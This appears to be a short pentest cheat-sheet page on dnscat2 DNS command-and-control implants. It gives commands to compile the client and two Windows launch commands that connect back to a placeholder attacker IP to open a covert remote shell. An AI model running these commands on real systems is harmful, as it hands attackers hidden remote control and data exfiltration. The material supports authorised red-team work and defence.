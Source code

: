 # Implants

Search Tag(s): #dnscat2 #command-and-control #interactive-shell

TODO: Provide a usage example with dnscat2

## Compile Implant

### Linux

```
$ cd dnscat2/client/ && make
```

### Windows

```
C:\> dnscat2-win32.exe --host <attacker_IP>
```

```
PS C:\> Start-Dnscat2 -Domain <domain>.<tld> -DNSServer <attacker_IP>
```

---
## References

- [lukebaggett: DNSCat2 PowerShell Implant](https://github.com/lukebaggett/dnscat2-powershell)

- [avitex: Rust DNSCat](https://github.com/avitex/rust-dnscat)

- [Pentestlab Blog: Command and Control - DNS](https://pentestlab.blog/2017/09/06/command-and-control-dns/)
